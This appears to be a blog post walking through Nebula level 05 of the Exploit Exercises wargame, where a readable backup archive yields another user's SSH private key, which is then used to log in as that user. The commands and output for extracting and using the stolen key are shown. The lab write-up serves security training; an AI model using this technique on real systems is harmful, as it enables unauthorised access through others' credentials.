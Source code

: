 ```yaml
---
title: "Exploit Exercises - Nebula Level 05"
date: 2014-01-13 14:16:44+08:00
tags: 
- Security
- Exercises
- Nebula
---
```


### About

Check the *flag05* home directory. You are looking for weak directory permissions

To do this level, log in as the *level05* account with the password *level05* . Files for this level can be found in /home/flag05.

<!-- more -->

### Solution

Copy the file */home/flag05/.backup/backup-19072011.tgz* in to home directory of *level05*.

extract it

``` bash
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

So this should be the id key of user *flag05*, try to use `ssh` to login with user *flag05* without a password, and it successed.

``` bash
level05@nebula:~$ ssh flag05@localhost

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$
```